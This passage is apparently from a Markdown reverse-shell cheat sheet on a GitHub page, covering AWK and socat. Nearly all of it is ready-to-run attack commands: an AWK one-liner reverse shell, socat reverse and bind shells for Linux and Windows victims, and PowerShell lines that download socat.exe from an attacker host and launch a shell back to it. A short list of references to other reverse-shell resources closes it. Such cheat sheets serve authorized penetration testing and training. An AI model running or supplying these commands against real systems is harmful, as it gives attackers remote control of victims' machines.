 ### AWK

`Linux Only`
#### Reverse Shell
```bash
awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Socat
`socat` is a multipurpose tool for creating two-way tunnels between different types of flows (TCP, UDP, EXEC, FILE, etc.). It is especially useful in restricted environments and for advanced pivoting.

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)
[https://sourceforge.net/projects/unix-utils/files/socat/](https://sourceforge.net/projects/unix-utils/files/socat/)

#### Reverse Shell
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0

Linux victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
Windows victim> socat.exe TCP4:<attacker_ip>:1337 EXEC:powershell.exe,pty,stderr,sigint

# Limited PwSh access
Invoke-WebRequest -Uri http://<attacker>/socat.exe -OutFile $env:TEMP\socat.exe
Start-Process -FilePath "$env:TEMP\socat.exe" -ArgumentList "TCP4:<attacker_ip>:4444 EXEC:powershell.exe,pty,stderr,sigint"
```

#### Bind Shell
```bash
Linux victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
Windows victim> socat.exe TCP-LISTEN:1337,reuseaddr,fork EXEC:powershell.exe,pty,stderr,sigint

attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337
```

## References
- [Reverse Shell Generator](https://www.revshells.com/)
- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [Socat](https://www.socat.org/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Reverse Shell Hacktricks](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/)
